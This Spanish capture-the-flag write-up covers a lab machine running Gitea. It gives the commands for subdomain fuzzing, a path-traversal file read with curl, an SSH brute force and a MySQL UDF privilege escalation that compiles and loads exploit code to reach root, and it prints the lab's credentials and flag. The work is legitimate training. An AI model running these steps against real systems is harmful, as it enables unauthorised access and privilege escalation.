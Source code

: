 nmap: 22, 80, 3000

![image](https://github.com/user-attachments/assets/19f5d5f2-4a90-4310-bbd4-14c4d074484e)

---

nos vamos a la pagina del puerto 80 y 3000

![image](https://github.com/user-attachments/assets/283cdfa3-b5ec-4a3c-991f-3de987903851)

![image](https://github.com/user-attachments/assets/cac418c6-5aa8-469d-b685-ca99582d7e5c)

en la pagina no hay mucho mas que información y en la pagina del puerto 3000 hay una versión pero no hay exploit de esa versión, solo de la 1.22.4 que es la versión anterior.
en el código fuente hay unos puntos importantes

![image](https://github.com/user-attachments/assets/ce7b0baa-b7cc-4ba5-bb70-d78531b01a98)

primero un URL que si la ingresamos a hosts nos enviara otra vez a la pagina del puerto 3000, y abajo hay un  "csrftoken"  con un código, pero la verdad que el código da unos números pero probablemente hay un login. 
ahora probando otra vez con la URL que encontramos en el código fuente la vamos modificando, entonces ingresamos un "gitea.dl" y veremos que tenemos un login

![image](https://github.com/user-attachments/assets/43f97f17-701f-4f35-bda2-c011ac2f4b13)

como vemos en los login da algunas credenciales pero no funcionan pero por si acaso la vamos a guardar. 

     admin@gitea.com 
    PassAdmin123-

ahora haremos un FFUF

     ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://gitea.dl -H "Host: FUZZ.gitea.dl" -fs 13615 

![image](https://github.com/user-attachments/assets/2e7dbd84-4137-443e-a09d-0ee7009e42f5)

nos da "dev" lo agregamos al hosts y nos da esta pagina

![image](https://github.com/user-attachments/assets/05956581-0749-4020-8a5f-b92ce366fd05)

como no tenemos mucho hacemos un gobuster para descubrir mas si es que tiene mas

     gobuster dir -u http://dev.gitea.dl/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,html,py,txt -t 64


![image](https://github.com/user-attachments/assets/80e2421b-114a-4f26-9292-8999e4a9289f)

nos dio uno llamativo que es "search" 

![image](https://github.com/user-attachments/assets/a2bc71b8-baca-4f8c-90ad-9ff1cb6689f8)

probamos pero no da nada y como vimos al principio en el código fuente da una URL que contiene este usuario creo yo, lo añadimos al hosts

![image](https://github.com/user-attachments/assets/40987377-ac21-483e-9b77-f593b40f2a2c)

obtenemos esta pagina pero al final de la pagina da un nombre que podría ser un usuario, pero no tiene muchas cosas mas, así que le seguimos buscando y haciendo otro FFUF

![image](https://github.com/user-attachments/assets/672314d3-5037-410a-a274-971939e3554e)

    ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://s3cr3tdir.dev.gitea.dl -H "Host: FUZZ.s3cr3tdir.dev.gitea.dl" -fs 13615 

ahora hacemos lo mismo pero agregamos el "s3cr3tdir"

![image](https://github.com/user-attachments/assets/da39d60e-1ad4-425a-86db-9d23d4a835cc)

y como vemos tenemos lo mismo que vimos en el primer codigo que es el URL exactamente igual. 

![image](https://github.com/user-attachments/assets/e4ff1364-7c5e-4684-ab51-c989c3690ff7)

pero nos vamos a logear ahora para ver que hay. 

![image](https://github.com/user-attachments/assets/e2e4b9c1-e70a-4f24-83cb-7967c4ebb5f1)

nos iremos a explore y veremos esos 3 repositorios  y el que contiene un código es el 
myapp >> app.py

![image](https://github.com/user-attachments/assets/d7fe65e3-4e5b-4ad5-b287-4a5427fbac17)

y en esta linea tiene una vulnerabilidad

![image](https://github.com/user-attachments/assets/80bab679-f105-4f05-9313-42f17fe260ff)

a esa vulnerabilidad se le puede realizar un "path traversal" en la pagina principal o sea gitea.dl, así que podemos descargar archivos con esa vulnerabilidad o lograr visualizar 

lanzamos 

     curl "http://gitea.dl/download?filename=../../../../../etc/passwd"

![image](https://github.com/user-attachments/assets/84fca510-da6f-4769-a0da-0971b91dd0e2)

y vemos que nos entrega la información que esperamos, buscamos en los otros archivos otras funciones o códigos y encontramos esto

![image](https://github.com/user-attachments/assets/9f7db90f-7928-4ee7-a5fc-16f780298705)

probamos lo mismo pero con el código de info.txt

![image](https://github.com/user-attachments/assets/bf1346cf-0dd1-4ade-b7f4-223ea0709eaa)

nos da un error así que probamos, pero nos dice que hay un archivo de la información en /opt así que probamos suerte

![image](https://github.com/user-attachments/assets/ba45147a-eb4a-46da-b6af-ae6db5f9a380)

se logra la magia y tenemos usuarios y contraseñas como textos. pero no creo que esos son los usuarios reales, así que vamos hacer un ataque de fuerza bruta. 

creamos una carpeta con las contraseñas y hacemos una fuerza bruta con el usuario "designer" que es el usuario del git donde están los códigos. 

![image](https://github.com/user-attachments/assets/12dd3a10-60c2-4949-9c95-ef7ceb5c8e35)

obtenemos la contraseña de "ssh"

![image](https://github.com/user-attachments/assets/284c3fce-a6ca-43b9-86eb-412d780ece0a)

ingresamos con las credenciales y tenemos la flag de user

     4683f3b0c2f083bb9588370c0f8ab284

![image](https://github.com/user-attachments/assets/3b1385f7-eb6c-4a4e-bdd8-76146427a376)

como se ve tenemos un puerto abierto de forma local "127.0.0.1:3306"  y 3306 funciona con mysql y tenemos credenciales de un login así que probamos entrar a la base de datos con las credenciales que nos dio el login

      admin@gitea.com 
    PassAdmin123-

     mysql -u admin -pPassAdmin123-


![image](https://github.com/user-attachments/assets/a789dd0d-a870-4178-88b5-584369ca5407)

tenemos acceso a la base de datos, vamos a realizar esta escalada: https://docs.databricks.com/gcp/en/udf/ (User-Defined Functions) UDF  lo que es pocas palabras

     técnica para escalar privilegios que consiste en cargar una librería compartida maliciosa con el fin de ejecutar código externo y definido por nosotros a nivel de sistema

entonces comenzamos con

    SHOW VARIABLES LIKE '%plugin_dir%';

![image](https://github.com/user-attachments/assets/c7ee88db-2796-4966-8079-d0024a778961)

     SHOW VARIABLES LIKE '%secure_file_priv%';

![image](https://github.com/user-attachments/assets/3c1fb019-8d91-4d75-8ada-bfb07c7df1b3)

![image](https://github.com/user-attachments/assets/af0d512b-67a1-4a40-abe3-083bfeea005c)

ahora buscamos una vulnerabilidad o exploit basado en este ataque 

![image](https://github.com/user-attachments/assets/a2ad8583-731c-452a-841a-7cb330ded993)

nos sirve el primero así que lo tomamos

![image](https://github.com/user-attachments/assets/adafc483-669e-427f-b637-c49f289f620a)

dentro de se exploit contiene un código que intenta cargar códigos o archivos en "system()" así que vamos a pasarlo a la maquina victima

![image](https://github.com/user-attachments/assets/b35d28dc-b272-40c1-b780-1cc6a4b7bc75)

ahora lanzamos estos comandos

    gcc -g -c 1518.c
      gcc -g -shared -Wl,-soname,exploit_udf.so -o exploit_udf.so 1518.o -lc

![image](https://github.com/user-attachments/assets/73feac9c-97d5-40c8-b77d-a741ce95380c)

tendremos los 3 documentos ahora movemos el exploit a plugins para que la cargue

     mv exploit_udf.so /usr/lib/mysql/plugin/

ahora nos vamos a la base de datos y nos conectamos creamos la función que haga referencia a la librería que agregamos o sea el exploit 

    CREATE FUNCTION do_system RETURNS STRING SONAME 'exploit_udf.so';

![image](https://github.com/user-attachments/assets/4a38f320-e002-476e-8037-2310990387ee)

entonces el exploit cargado podemos ejecutar comando a nivel sistema, podemos por ejemplo cargar una reverse shell hacia nuestro puerto para conectarnos directo a root 

![[dockerlabs/medio/gitea/root.png]]

somos root! 
